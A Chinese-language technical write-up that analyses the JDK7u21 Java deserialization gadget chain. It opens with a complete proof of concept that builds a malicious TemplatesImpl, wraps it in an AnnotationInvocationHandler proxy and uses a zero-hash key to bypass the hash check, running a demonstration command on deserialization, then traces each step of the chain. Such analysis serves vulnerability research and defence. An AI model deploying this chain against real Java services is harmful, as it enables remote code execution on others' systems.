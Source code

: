 - [JDK7u21](#jdk7u21)
  - [POC](#poc)
  - [LinkedHashSet#readObject](#linkedhashsetreadobject)
    - [HashMap#put()](#hashmapput)
  - [AnnotationInvocationHandler#invoke](#annotationinvocationhandlerinvoke)
  - [AnnotationInvocationHandler#equalsImpl](#annotationinvocationhandlerequalsimpl)
  - [Hash绕过](#hash绕过)
    - [AnnocationInvocationHandler#hashCodeImpl](#annocationinvocationhandlerhashcodeimpl)
# JDK7u21
该链利用范围jdk<=7U21,主要思路是通过`HashMap`的实现里当发生Hash冲突时会调用后一个元素的`equals`方法进行元素比较.  
再利用动态代理的机制将该元素设置为`AnnotationInvocationHandler`代理类来触发其`invoke`方法最后走到其`equals`的实现类`equalsImpl`中的反射机制触发`TempaltesImpl`恶意类的`getOutProperties()`入口实现RCE.  
其中在进入`equals`方法时利用特殊字符串使得计算结果为0来绕过了hash校验.
## POC
```java
public class poc {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = getTemplate();
        HashMap map = new HashMap();
        Constructor ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        ctor.setAccessible(true);
        InvocationHandler tempHanlder = (InvocationHandler) ctor.newInstance(Templates.class, map);
        Templates proxy = (Templates) Proxy.newProxyInstance(poc.class.getClassLoader(), templates.getClass().getInterfaces(), tempHanlder);
        LinkedHashSet set = new LinkedHashSet();
        set.add(templates);
        set.add(proxy);
        map.put("f5a5a608", templates);
        byte[] obj=serialize(set);
        unserialize(obj);
    }

    private static TemplatesImpl getTemplate() throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass cc = pool.makeClass("poctest");
        cc.setSuperclass((pool.get(AbstractTranslet.class.getName())));
        CtConstructor cons = new CtConstructor(new CtClass[]{}, cc);
        cons.setBody("{ Runtime.getRuntime().exec(\"calc.exe\");}");
        cc.addConstructor(cons);
        byte[][] bytecodes = new byte[][]{cc.toBytecode()};
        System.out.println(bytecodes);
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", bytecodes);
        setFieldValue(templates, "_class", null);
        setFieldValue(templates, "_name", "1");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        return templates;
    }

    //通过反射为obj的属性赋值
    private static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static byte[] serialize(final Object obj) throws Exception {
        ByteArrayOutputStream btout = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(btout);
        objOut.writeObject(obj);
        return btout.toByteArray();
    }
    public static Object  unserialize(final byte[] serialized) throws Exception {
        ByteArrayInputStream btin = new ByteArrayInputStream(serialized);
        ObjectInputStream objIn = new ObjectInputStream(btin);
        return objIn.readObject();
    }
}
```
1. map.put要放在set.add之后,不然会直接本地触发命令执行.
2. 之所以不直接用HashSet的原因是LinkedHashSet里数据的下标和我们插入时的顺序一样，而HashSet顺序就不一样了
## LinkedHashSet#readObject
`LinkedHashSet`是一个继承了`HashSet`类并实现了Serializable接口的类,其重写的readObject()方法位于其父类的HashSet类中.  
其`readObject()`方法如下:
![](2021-12-23-10-50-01.png)
前面做了一些`HashMap`的初始化工作,然后判断调用`readObject()`方法的是否为`LinkedHashSet`或其子类后将map初始化为一个`LinkedHashMap`或者`HashMap`.在最后循环读取对象并调用`map.put()`将对象作为key放入`HashMap`,其中vaule为固定值,此时map为`LinkedHashSet`,但其调用的`put`其实是父类`HashMap`的`put`方法.
### HashMap#put()
`HashMap#put()`方法如下:
![](2021-12-23-11-04-25.png)
其中主要是HashMap的实现,首先计算key的hash值,然后根据hash值来调用hash函数来获取该key的索引位置,如果该位置为空,则将该键值对存入HashMap中,但是如果该位置不为空,已经有一个键值对了即Hash冲突,那么就会进行比较后进行覆盖原来的值并将旧值返回.
关键在于其比较的过程,首先判断hash是否一致,即`e.hash == hash`,然后满足以下条件之一即可:
* (k = e.key) == key
* key.equals(k)
即Key值相同或者调用key的equals方法来比较是否相等.
## AnnotationInvocationHandler#invoke
因为是调用的后一个元素的equals方法,当我们将后一个元素设置为`AnnotationInvocationHandler`代理类时,也就会去调用其`equals`方法,而`AnnotationInvocationHandler`为一个动态代理对象,调用动态代理对象的方法前都会先触发其`invoke`方法.  
来到其`invoke`方法中如下.
```java
    public Object invoke(Object var1, Method var2, Object[] var3) {
        String var4 = var2.getName();
        Class[] var5 = var2.getParameterTypes();
        if (var4.equals("equals") && var5.length == 1 && var5[0] == Object.class) {
            return this.equalsImpl(var3[0]);
```
其中var1为代理本身,var2为调用的方法(即`equals`),var3为调用方法的参数(即要做比较的上一个元素对象)
当满足调用方法名为`equals`,参数个数为1,且类型为Object对象时就会调用其自身的`equalsImpl`方法.
## AnnotationInvocationHandler#equalsImpl  
来到`equalsImpl`方法中如下,其中参数var1即equals的参数,即Map中的上一个元素对象.
![](2021-12-23-11-50-26.png)
前面通过`==`和是否为父子类来判断是否相等返回,当都不满足时进入else分支.
然后从`Method[] var2 = this.getMemberMethods();`获取到其全部方法,此时获取到即其代理对象`TempaltesImpl`的public方法,包括`getOutputProperties()`和`newTransformer()`方法.
![](2021-12-23-12-07-24.png)
在后面` var8 = var5.invoke(var1);`则利用反射直接循环执行了获取到的所有方法,也就通过`getOutputProperties()`进入了`TempaltesImpl`利用链.
## Hash绕过
在进入`equals`方法前首先需要满足的条件是`e.hash == hash`,即两个key的hash值要相等,但POC的两个元素分别是`Temlpaltes`对象和一个`AnnotationInvocationHandler`代理对象,不满足此条件.
### AnnocationInvocationHandler#hashCodeImpl
当计算hash时其实是分别调用其对应的`hashCode()`方法,即`templates.hashCode() == proxy.hashCode()`.
根据动态代理机制来到`AnnocationInvocationHandler`的`Invoke`方法中,其最后调用的是其`hashCodeImpl`方法.
![](2021-12-23-12-19-34.png)
其`hashCodeImpl`实现如下:
![](2021-12-23-12-20-15.png)
其最后返回的变量为var1,而`var1 += 127 * ((String)var3.getKey()).hashCode() ^ memberValueHashCode(var3.getValue())) `,即遍历memberValues的键值对,对键值分别做hash计算后异或.
而`memberValues`的值在其构造函数中被设置.
![](2021-12-23-12-29-45.png)
也就是在POC中的这两段代码
```java
        InvocationHandler tempHanlder = (InvocationHandler) ctor.newInstance(Templates.class, map);
        ...
        ...
         map.put("f5a5a608", templates);
```
将其设置为了一个键为`f5a5a608`,值为`templates`对象的数组.
而在对键`f5a5a608`做hashcode时会发现结果为0,即相当于var1的值即为templates做hashcode的结果和0做异或,即就为templates的hash值,导致原本的判断语句变成了`templates.hashCode() == prtemplates.hashCode()`导致结果为true,绕过了hash校验.  

最后的调用链如下:
![](2021-12-23-12-11-02.png)
